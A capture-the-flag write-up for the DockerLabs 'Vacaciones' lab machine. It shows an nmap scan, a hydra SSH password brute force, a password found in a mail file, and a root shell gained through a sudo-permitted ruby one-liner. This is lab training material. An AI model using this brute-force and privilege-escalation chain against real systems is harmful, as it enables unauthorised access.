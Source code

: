 #Vacacciones DockerLabs - 14/05/2024

#web - https://dockerlabs.es/#/

We do a port scan with nmap:

```shell
└─$ nmap -sVC -p- -n --min-rate 5000 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-14 22:08 CEST
Nmap scan report for 172.17.0.2
Host is up (0.00012s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
|_  256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds

```
We access the website and see a blank web page:

![Captura de pantalla 2024-05-14 221852](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/3d24462b-04c5-47ac-a9dd-8fbb2ffad74a)

We look at the code and see two possible users ‘camilo’ and ‘juan’:

![Captura de pantalla 2024-05-14 221917](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/1c1ead82-09cc-430f-8a62-ea8e21e6c9c7)

We create a .txt file with these two users:
(Camilo is the user with which to do the brute force attack, put it first to make it faster).

```shell
└─$ nano users.txt
```

![Captura de pantalla 2024-05-14 224207](https://github.com/AnonimPlayerr/DockerLabsWriteUps/assets/146385424/c6797580-33ad-49c4-998a-0ee01d6fea2f)

We proceed to the brute force attack with hydra:

```shell
└─$ hydra -L /home/kali/Desktop/Machines/users.txt -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2/
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-14 22:35:54
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344400 login tries (l:1/p:14344400), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 1 final worker threads did not complete until end.
[ERROR] 1 target did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-14 22:36:05
```

We access via ssh:

```shell
└─$ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
$ 
```

We tried sudo -l but it didn't work:

```shell
$ sudo -l
[sudo] password for camilo: 
Sorry, user camilo may not run sudo on d3c3148a6872.
```

We tried looking for binaries with SUID permissions but there is nothing exploitable:

```shell
camilo@d3c3148a6872:~$ find / -perm -4000 -user root 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/sudo
/bin/mount
/bin/umount
/bin/su

```

We travel between directories to see what we can find we go to ‘/home’ and if we do ls we see a directory called ‘var’ we enter and find another one called ‘mail’ inside there is another one called ‘camilo’ and inside we find a file ‘mail.txt’ we do a cat and this is what we see:

```shell
camilo@d3c3148a6872:/var/mail/camilo$ cat correo.txt
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb

```

Now we access the machine with the user ‘root’ and the password ‘2k84dicb’:

```shell
└─$ ssh root@172.17.0.2
root@172.17.0.2's password: 
Permission denied, please try again.
```

We test it and we see that the user is not root, now we are going to test it with the user ‘juan’:

```shell
└─$ ssh juan@172.17.0.2
juan@172.17.0.2's password: 
$ 

```

This time it works.
We run a ‘sudo -l’ to see if we can escalate privileges from here:

```shell
$ sudo -l
Matching Defaults entries for juan on d3c3148a6872:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on d3c3148a6872:
    (ALL) NOPASSWD: /usr/bin/ruby

```

We see that we can run the binary ‘/usr/bin/ruby’ without a password:
We enter ‘https://gtfobins.github.io/gtfobins/ruby/’ and paste the code into the terminal:

```shell
$ sudo ruby -e 'exec "/bin/sh"'

```

```shell
# whoami
root
# 
